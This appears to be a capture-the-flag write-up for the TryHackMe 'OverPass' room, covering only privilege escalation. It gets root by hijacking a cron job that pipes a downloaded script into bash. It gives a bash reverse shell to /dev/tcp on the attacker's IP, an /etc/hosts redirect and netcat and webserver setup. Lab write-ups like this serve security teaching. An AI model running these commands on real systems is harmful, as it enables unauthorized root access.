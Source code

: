 # OverPass

## Recon

## Initial Access


## Privilege Escalation

Found cron entry with linpeas:
```
root curl overpass.thm/downloads/src/buildscript.sh | bash
```

The task downloads "buildscript.sh" and runs it with bash. In the linpeas output
we also say that the /etc/hosts file is writable. Let's check what is currently
in there:

```
# /etc/hosts file
127.0.0.1 overpass.thm
```

Change the loopback address to be our TryHackMe VPN address:

```
# /etc/hosts file
10.2.8.243 overpass.thm
```

Now create a bogus downloads/src/buildscript.sh file that contains a reverse
shell:

```
bash -c 'exec bash -i &>/dev/tcp/10.2.8.243/12345 <&1'
```

Start a netcat listener on port 12345 in a new terminal.

Finally, launch a python webserver in the directory that contains
downloads/src/buildscript.sh on port 80:

```
$ sudo python3 -m http.server 80
```

After a minute, the cron job will download and execute our file, giving us a
root shell!!

